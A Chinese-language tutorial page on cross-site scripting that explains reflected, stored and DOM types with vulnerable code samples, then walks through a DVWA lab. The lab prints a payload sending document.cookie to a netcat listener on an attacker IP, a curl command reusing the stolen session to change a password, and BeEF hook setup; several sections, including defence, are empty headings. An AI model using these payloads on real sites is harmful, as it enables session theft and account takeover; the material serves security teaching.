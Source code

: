 # 跨站脚本（Cross-site Scripting，XSS）

跨站脚本（Cross-site scripting，XSS）攻击是一种Web应用安全中的客户端漏洞，攻击者可以利用这种漏洞在网站上`注入`恶意的JavaScript代码。当受害者访问网站时就会自动运行这些恶意代码，攻击者可以劫持用户会话、破坏网站或将用户重定向到恶意站点。在`OWASP Top Ten 2017`中，XSS攻击位于第7位。

![Cross-site scripting](../../../assets/img/cross-site-scripting.svg)

> 为避免和与CSS（Cascading Style Sheets，层叠样式表）混淆，将第一个字母改成了`X`，即`XSS`。

## 原理

```html
<input type="text" value="<%= getParameter("keyword") %>">
<button>搜索</button>
<div>
  您搜索的关键词是：<%= getParameter("keyword") %>
</div>
```
## 分类

XSS攻击分为3个类别，包括`反射型（非持久型）`、`存储型（持久型`）和`DOM型`。

### 反射型

反射型XSS是跨站脚本攻击中最简单的一种类型，攻击载荷包含在HTTP请求中。

攻击者一般通过发送电子邮件，诱使受害者访问包含恶意代码的URL。反射型XSS通常出现在搜索栏、用户登录等地方。

反射型XSS漏洞往往被认定为低危漏洞，因为随着用户的安全意识提高，在实战过程中利用难度高。

### 存储型

存储型XSS，是指用户的恶意输入被存储下来，并在后期通过其他用户或管理员的页面进行展示。存储型XSS具有很高的隐蔽性，不需要受害者点击特定的URL，通常被认为高危风险。

攻击场景多见于论坛、博客文章的评论、用户昵称等等。

### DOM型

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM型XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。

```javascript
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

 HTML事件
## 限制绕过技巧

### CSP绕过

#### CSP介绍
#### CSP绕过

### XSS2RCE
## DVWA攻击场景示例

```
<script>alert(/xss/)</script>
<script>alert(document.cookie)</script>
<script>document.location = "http://google.com"</script>
```

### 实验一、利用XSS漏洞盗取并利用Cookie

第一步，在Kali Linux中，使用`nc`命令监听端口

```bash
nc -lvp 1234
```

第二步，在DVWA中，输入payload
```javascript
<script>new Image ().src="http://192.168.164.128:1234/"+document.cookie;</script>
```
第三步，在Kali Linux中，查看终端信息
```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 38900
GET /security=low;%20PHPSESSID=kavqn49seghn91lcbs6j411v75 HTTP/1.1
...
```
第四步，使用盗取的Cookie

方法一，使用`开发者工具`

`F12`打开开发者工具，选择`存储（storage）`标签页，左侧选择`Cookies`，对相应字段进行编辑，最后访问页面即可。

方法二，使用浏览器插件

推荐使用`Cookies Quick Manager`

方法三，使用`curl`命令

```bash
curl --cookie "/security=low;%20PHPSESSID=kavqn49seghn91lcbs6j411v75" --location "localhost/dvwa/vulnerabilities/csrf/?password_new=chicken&password_conf=chicken&Change=Change#" | grep "Password"
```

### 实验二、使用[BeEF](https://beefproject.com/)框架

新版本Kali Linux，已经移除Beef，需要手工安装

```bash
$ beef-xss                                                                                                   
Command 'beef-xss' not found, but can be installed with:
sudo apt install beef-xss
Do you want to install it? (N/y)y 输入y
....
$ sudo beef-xss
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 输入新密码
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
....
```

参考

https://www.freebuf.com/sectool/178512.html

## 防御
## XSS通关游戏

- [Google XSS Game](https://xss-game.appspot.com/)
- [xss-labs](https://github.com/do0dl3/xss-labs)
- [Alert(1) to Win](https://alf.nu/alert1)
- [prompt(1) to win](https://prompt.ml/)
- [XSS Challenges](https://xss-quiz.int21h.jp/)
- [brutelogic XSS Practice Labs](https://brutelogic.com.br/knoxss.html)
- [brutelogic XSS Gym](https://brutelogic.com.br/gym.php)
- [XSS by PwnFunction](https://xss.pwnfunction.com/)
- [XSS Game](http://www.xssgame.com/)
- [cure53 XSS Challenges](https://github.com/cure53/XSSChallengeWiki/wiki)

## 参考资料

- [OWASP,Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger，Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [MDN Web Docs，跨站脚本攻击](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)
- [美团技术团队-前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)

https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html